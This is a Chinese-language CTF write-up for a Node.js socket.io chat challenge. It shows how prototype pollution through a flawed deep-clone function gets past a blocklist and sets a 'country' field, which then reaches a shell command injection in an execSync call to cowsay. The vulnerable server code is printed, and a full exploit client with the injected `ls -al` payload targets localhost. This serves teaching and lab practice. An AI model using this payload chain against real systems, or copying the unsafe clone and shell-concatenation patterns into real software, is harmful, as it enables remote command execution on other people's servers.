

## writeup 

在本目录下运行`make`题目环境就可以跑起来了

题目主要考察原型链污染，关于javascript的知识请看[http://wonderkun.cc/index.html/?p=774](http://wonderkun.cc/index.html/?p=774)

writeup也可以参考: [https://xz.aliyun.com/t/2802](https://xz.aliyun.com/t/2802)

类似的题目: [https://github.com/otakekumi/CTF-Challenge/tree/master/nodejs/chall_4](https://github.com/otakekumi/CTF-Challenge/tree/master/nodejs/chall_4),writeup见[https://xz.aliyun.com/t/2735](https://xz.aliyun.com/t/2735)


下面开始讲解：
题目是一个由 Node.js 编写的基于 socket.io 的聊天应用,客户端代码见`client.js`

```javascript
const io = require('socket.io-client')
const socket = io.connect('http://localhost:3000/')
 
if(process.argv.length != 4) {
  console.log('name and channel missing')
   process.exit()
}
console.log('Logging as ' + process.argv[2] + ' on ' + process.argv[3])
var inputUser = {
  name: process.argv[2], 
};

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})


socket.emit('register', JSON.stringify(inputUser));
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', process.argv[3]);//ps: you should keep your channels private
socket.emit('message', JSON.stringify({ channel: process.argv[3], msg: "hello channel" }));
socket.emit('message', JSON.stringify({ channel: "test", msg: "i own you" }));

```

跟服务端代码对照一下，发现`helper.js`中存在一个敏感函数：

```javascript
getAscii: function(message) {
    var e = require('child_process');
    return e.execSync("cowsay '" + message + "'").toString();
}
```

可能存在命令注入,只要我们构造 message = "aaa';ls -al; echo 'xxx"，服务器就会将命令 cowsay 'aaa'; ls -al; echo 'xxx' 执行后的结果发送给我们。可以发现服务端会在监听到 join 和 leave 两个事件的时候触发该函数：

```javascript
client.on('join', function(channel) {
    try {
        clientManager.joinChannel(client, channel);
        sendMessageToClient(client,"Server", 
            "You joined channel", channel)

        var u = clientManager.getUsername(client);
        var c = clientManager.getCountry(client);

        sendMessageToChannel(channel,"Server", 
            helper.getAscii("User " + u + " living in " + c + " joined channel"))
    } catch(e) { console.log(e); client.disconnect() }
});

client.on('leave', function(channel) {
    try {
        client .join(channel);
        clientManager.leaveChannel(client, channel);
        sendMessageToClient(client,"Server", 
            "You left channel", channel)

        var u = clientManager.getUsername(client);
        var c = clientManager.getCountry(client);
        sendMessageToChannel(channel, "Server", 
            helper.getAscii("User " + u + " living in " + c + " left channel"))
    } catch(e) { console.log(e); client.disconnect() }
});
```

所以下一个问题则变成了如何控制变量 u 或 c，即用户输入的 username 和 country，但问题是不是这么简单呢？当然不是，服务端会对用户的输入做非常严格的校验：

```javascript
validUser: function(inp) {
    var block = ["source","port","font","country",
                    "location","status","lastname"];
    if(typeof inp !== 'object') {
        return false;
    } 

    var keys = Object.keys(inp);
    for(var i = 0; i< keys.length; i++) {
        key = keys[i];

        if(block.indexOf(key) !== -1) {
            return false;
        }
    }

    var r =/^[a-z0-9]+$/gi;
    if(inp.name === undefined || !r.test(inp.name)) {
        return false;
    }

    return true;
}

```
可以看到由于正则检查的存在，我们根本无法在 name 属性注入代码，而且由于黑名单的限制，我们也无法直接给 country 属性赋值。

但是我们看到有一个操作：

```javascript
    newUser = helper.clone(JSON.parse(inUser))
```
跟踪一下clone的代码，问题就出在clone函数上，造成了原型链污染。

```javascript
    clone: function(obj) {

        if (typeof obj !== 'object' ||
            obj === null) {

            return obj;
        }

        var newObj;
        var cloneDeep = false;

        if (!Array.isArray(obj)) {
            if (Buffer.isBuffer(obj)) {
                newObj = new Buffer(obj);
            }
            else if (obj instanceof Date) {
                newObj = new Date(obj.getTime());
            }
            else if (obj instanceof RegExp) {
                newObj = new RegExp(obj);
            }
            else {

                var proto = Object.getPrototypeOf(obj);
                if (proto &&
                    proto.isImmutable) {

                    newObj = obj;
                }
                else {
                    newObj = Object.create(proto);
                    cloneDeep = true;
                }
            }
        }
        else {
            newObj = [];
            cloneDeep = true;
        }
     
        if (cloneDeep) {
            var keys = Object.getOwnPropertyNames(obj);

            for (var i = 0; i < keys.length; ++i) {
                var key = keys[i];
                var descriptor = Object.getOwnPropertyDescriptor(obj, key);
                if (descriptor &&
                    (descriptor.get ||
                     descriptor.set)) {

                    Object.defineProperty(newObj, key, descriptor);
                }
                else {
                    newObj[key] = this.clone(obj[key]);
                }
            }
        }

        return newObj;
    }
```

我们写如下代码，调试一下：

```javascript
function clone(obj) {
    if (typeof obj !== 'object' || obj === null) {
        return obj;
    }

    var newObj;
    var cloneDeep = false;

    if (!Array.isArray(obj)) {
        if (Buffer.isBuffer(obj)) {
            newObj = new Buffer(obj);
        } else if (obj instanceof Date) {
            newObj = new Date(obj.getTime());
        } else if (obj instanceof RegExp) {
            newObj = new RegExp(obj);
        } else {
            var proto = Object.getPrototypeOf(obj);
            if (proto && proto.isImmutable) {
                newObj = obj;
            } else {
                newObj = Object.create(proto);
                cloneDeep = true;
            }
        }
    } else {
        newObj = [];
        cloneDeep = true;
    }

    if (cloneDeep) {
        var keys = Object.getOwnPropertyNames(obj);
        for (var i = 0; i < keys.length; ++i) {
            var key = keys[i];
            var descriptor = Object.getOwnPropertyDescriptor(obj, key);
            if (descriptor && (descriptor.get || descriptor.set)) {
                Object.defineProperty(newObj, key, descriptor);
            } else {
                newObj[key] = clone(obj[key]);
            }
        }
    }
    return newObj;
}

var payload = '{"__proto__":{"oops":"It works !"}}';
var oldObj = JSON.parse(payload);
console.log(oldObj.oops);
var newObj = clone(oldObj);
console.log(newObj.oops);

```
当我们执行完这一句之后：


```javascript
newObj.__proto__ === Object.prototype // true,这是正确的这里没有问题
```

但是需要注意一点：

```javascript
obj.__proto__  //Object {oops: "It works !"},并不是 Object.prototype 
// 也就是说
obj.__proto__  === Object.getPrototypeOf(obj) //false
```

继续往下执行：



可以看到keys的值为`["__proto__"]`,因为在这里 `__proto__` 属性是 obj 对象的一个普通的自有属性，所以可以被该函数所返回，而一般对象的 `__proto__` 属性是不会被该函数所列举出来的。而之后的 `newObj['__proto__'] = clone(obj['__proto__']);` 的赋值操作使得 newObj 的原型发生了变化。

`newObj['__proto__'] = clone(obj['__proto__']);`这句我们可以类比成如下的操作：

```javascript
>var payload = '{"__proto__":{"oops":"It works !"}}';
var obj = JSON.parse(payload);
>Object.getPrototypeOf(obj)
<{constructor: ƒ, __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}

var newObj = {}
newObj['__proto__'] = obj['__proto__']
<{oops: "It works !"}
>newObj.oops
<"It works !"
>Object.getPrototypeOf(newObj)
<{oops: "It works !"}
```

需要注意，原型链被污染的只有`newObj`，通过`var payload = '{"__proto__":{"oops":"It works !"}}';
var obj = JSON.parse(payload);`这种方法是没有办法修改`obj`的原型的，这因为是`JSON.parse`做了安全处理。


最终的payload如下:

```javascript
const io = require('socket.io-client')
const socket = io.connect('http://localhost:3000/')

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`);
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', 'xxx');
```